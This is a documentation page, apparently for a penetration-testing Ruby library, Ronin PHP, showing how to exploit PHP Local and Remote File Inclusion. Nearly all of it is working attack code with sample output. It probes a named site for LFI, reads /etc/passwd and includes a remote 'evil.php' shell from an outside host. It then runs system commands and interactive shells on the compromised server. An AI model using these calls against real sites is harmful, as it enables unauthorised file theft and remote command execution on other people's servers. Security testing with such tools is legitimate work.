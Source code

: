 ```yaml
---
layout: default
title: Using Ronin PHP
---
```


# Using Ronin PHP

The [Ronin PHP](http://ronin-ruby.github.com/docs/ronin-php/) library provides
support for PHP related security tasks, such as Local File Inclusion (LFI)
or Remote File Inclusion (RFI).

Before we can use this library in the Ronin Ruby Console, we must first
install the library. To install the Ronin Web library used in this guide,
simply run the following command:

    $ sudo gem install ronin-php

To start the Ronin Ruby Console, with ronin-php pre-loaded, simply run the
`ronin-php` command:

    $ ronin-php

## Local File Inclusion (LFI)

Test a URL for LFI:

    url = URI('http://www.e-builds.com/?page=Portfolio')
    url.has_lfi?
    # => true

Obtain a [Ronin::PHP::LFI](http://ronin-ruby.github.com/docs/ronin-php/Ronin/PHP/LFI.html)
object which can be used to access files or finger-print the web server:

    lfi = url.first_lfi

Request a local file as a `String`:

    lfi.get('/etc/passwd')

Request a local file as a [Ronin::PHP::LFI::File](http://ronin-ruby.github.com/docs/ronin-php/Ronin/PHP/LFI/File.html)
object:

    lfi.include('/etc/passwd')
    # => #<Ronin::PHP::LFI::File:/etc/passwd>

## Remote File Inclusion (RFI)

Test a URL for RFI:

    url = URL('http://www.example.com/page.php?layout=default')
    url.has_rfi?
    # => true

Obtain a [Ronin::PHP::RFI](http://ronin-ruby.github.com/docs/ronin-php/Ronin/PHP/RFI.html)
object which can be used to include other PHP files:

    rfi = url.first_rfi

Including a remote PHP file:

    rfi.include('http://www.shells4you.com/evil.php')

Using the Ronin PHP Remote Procedure Call (RPC) server:

    client = rfi.rpc

Using the PHP Console service to call PHP functions:

    php = client.console

    php.phpversion
    # => "4.3.10"

    php.php_uname('-m')
    # => "i686"

Using the PHP Shell service for quick command execution:

    shell = client.shell

    shell.cwd
    # => "/var/www/site/\n"

    shell.cd '..'
    # => ""

    shell.exec('date -u')
    # => "Thu Aug 21 10:29:38 UTC 2008\n"

    shell.system('ps')
    #    PID TTY          TIME CMD
    #  27042 pts/8    00:00:00 bash
    #  27841 pts/8    00:00:00 ps
    # => nil

Using the Interactive Shell for the PHP-RPC Console service:

    php.interact
    # >> phpversion();
    # => "4.3.0"
    # >> explode('|', 'one|two|three');
    # => Array(
    #   "one",
    #   "two",
    #   "three"
    # )
    # >> exit
    # => nil

Using the Interactive Shell for the PHP-RPC Shell service:

    shell.interact
    # $ pwd
    # /var/www/site/
    # $ cd ..
    # $ ls -la
    # ...
    # $ exit
    # => nil

